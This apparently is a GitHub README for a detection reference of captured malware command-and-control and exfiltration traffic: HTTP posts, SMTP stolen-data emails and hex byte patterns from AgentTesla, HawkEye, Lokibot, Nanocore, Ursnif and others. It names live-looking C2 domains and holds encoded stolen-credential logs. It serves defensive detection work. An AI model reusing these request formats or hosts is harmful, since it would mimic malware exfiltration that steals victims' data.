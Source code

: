 ### A repo for matching on known c2 and exfil traffic keywords (ctrl+f to search)

#### AgentTesla http:
~~~
POST /zin/WebPanel/api.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)
Content-Type: application/x-www-form-urlencoded
Host: megaplast.co.rs
Content-Length: 308
Expect: 100-continue
Connection: Keep-Alive

HTTP/1.1 100 Continue

p=G1DZYwdIiDZ6V83seaZCmTT0wiCyOlXVS0OEx4YpkUAOuKO/6hfQJ%2BZD2LjpTbyu9w0gudjYXCIc0Ul74wtsvtqYLYuTR%2BlFVl%2B5deG0RnTTo6nFc1M9tx0%2BRo7WXetRdIHkmVMMSeqH%2BEroM7yttDzosvKfKgB%2BJ07oqT/YvQ6CPNW2%2BCETCU6oIlO9XYyrEy6/hYeF%2BgkfRc9xSEfZhh/7Wk0khJ4zZJ3cjEvXDxJcQWA739/yDUy4kOAndihYsWnLw1mVCHxJSJf7%2BguB9f4DpgX10NLpH
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-http.png "AgentTesla HTTP")

#### AgentTesla smtp exil:
~~~
From: office@larbaxpo[.]com
To: officelogs@larbaxpo[.]com
Date: 9 Oct 2019 17:58:19 +0100
Subject: admin/USER-PC Recovered Cookies
Content-Type: multipart/mixed;
 boundary=--boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7

----boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: quoted-printable

Time: 10/09/2019 17:58:13<br>UserName: admin<br>ComputerName: USE=
R-PC<br>OSFullName: Microsoft Windows 7 Professional <br>CPU: Int=
el(R) Core(TM) i5-6400 CPU @ 2.70GHz<br>RAM: 3583.61 MB<br>IP: 18=
5.183.107.236=0A<hr>
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-submission.png "AgentTesla Submission")

#### Hawkeye keyogger
~~~
From: mosharrof@mhcapparels.com
To: mosharrof@mhcapparels.com
Date: 9 Oct 2019 01:57:35 +0100
Subject: HawkEye Keylogger - Reborn v9 - Passwords Logs - admin \ USER-PC -
 89.187.165.47
Content-Type: text/plain; charset=utf-8
Content-Transfer-Encoding: base64

SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkNClBhc3N3b3JkcyBMb2dzDQphZG1p
biBcIFVTRVItUEMNCg0KPT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09PT09
PT09PT09PT09PT09PT0NClVSTCAgICAgICAgICAgICAgIDogaHR0cHM6Ly9tLmZhY2Vi
b29rLmNvbQ0KV2ViIEJyb3dzZXIgICAgICAgOiBGaXJlZm94IDMyKw0KVXNlciBOYW1l
ICAgICAgICAgOiBob25leUBwb3QuY29tDQpQYXNzd29yZCAgICAgICAgICA6IGhvbmV5
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/hawkeye.png "Hawkeye")

#### Imminent RAT
~~~
00000000  06 00 00 00 81 13 14 6e 5b 69                     .......n [i
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/imminent-1.png "Imminent")
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/imminent-2.png "Imminent")

#### Lokibot

follw tcp stream, not http stream in wireshark
~~~
POST /sky/five/fre.php HTTP/1.0
User-Agent: Mozilla/4.08 (Charon; Inferno)
Host: fueda.info
Accept: */*
Content-Type: application/octet-stream
Content-Encoding: binary
Content-Key: 8DAA705A
Content-Length: 176
Connection: close

..'.......ckav.ru..
...a.d.m.i.n.......U.S.E.R.-.P.C.......U.S.E.R.-.P.C......................+................0...8.5.6.9.A.A.F.F.6.3.A.A.A.7.1.D.8.0.4.0.0.E.2.5.....Rqbay....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/lokibot.png "Lokibot")

#### Nanocore

flag on "38 00 00 00 17" pattern
~~~
00000000  38 00 00 00 17 f5 4b 2c c3 65 ca 9f eb bc fd 67   8.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40 17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 f2 cf 3e 51 29 18 55 e5 1c 7a 6a 91   ......>Q ).U..zj.
00000030  03 99 38 f7 ac 3b f7 89 85 2e c4 d8               ..8..;.. ....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-38.png "Nanocore 38")

flag on "40 00 00 00 17" pattern:
~~~
00000000  40 00 00 00 17 f5 4b 2c c3 65 ca 9f eb bc fd 67   @.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40 17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 87 30 8f fa 78 9d 2a 01 c2 51 ee 07   .....0.. x.*..Q..
00000030  bd e7 23 95 3e ab a1 04 ca 56 b3 fb b7 9b b7 3a   ..#.>... .V.....:
00000040  13 e5 2b 52                                        ..+R
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-40.png "Nanocore 40")

#### TA505 Loader:
~~~
POST /2021 HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; InfoPath.2; CIBA; MS-RTC LM 8)
Content-Length: 95
Host: windows-sys-update.com

&D=User-PC&U=admin&OS=6.1&PR=Dwm.exe%7CEXCEL.EXE%7CExplorer.EXE%7Ctaskhost.exe%7Cwindanr.exe%7CHTTP/1.1 404 Not Found
Server: nginx/1.10.3
Date: Wed, 09 Oct 2019 18:53:18 GMT
Content-Length: 0
Connection: keep-alive
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ta505-loader.png "TA505 Loader")

#### Ursnif:
~~~
POST /images/wsF0B4sp/ZaYjjdVgt73Q1BSOy_2Fofi/qF_2BfPTuK/5Ha_2F0xEvmbSfT_2/FluJ8ZF_2Fx8/g6xkZAZrZwN/2skHgzv92i_2BS/uPf4RDQvATKCgx0GZ5gez/ph_2BLcscLQkKDVw/HGZ6zA6DhGCqgPD/VTX09Q_2FUWIFyWps1/nfJ0I3rIZ/QNKbXjeu7xXa3W_2FZSX/bcWtE2zC4RafXFoRlqL/4EC4YHwclzkXrfX/58a3.bmp HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary=36775038942641984568
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 399
Host: shoshanna.at

--36775038942641984568
Content-Disposition: form-data; name="upload_file"; filename="78C6.bin"

\.\..V.]:.o..<]......H..)E.J=x...e%3..U.@.f......].tZ..1....g..OzC.5v.?o.NL...;..)..E.G.a~.....M#;.Cu;N/.3\$....x.....R....e..5.....-mW,..	..C................n.G.|..k0...@...?I.Iu......9k^.U6tzT9.b.3....#..V.4].La....zL.h+...aa..H.D.....Ar.......3.w.<.!.-.....|F9! 3.....7
--36775038942641984568--
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ursnif.png "Ursnif POST")

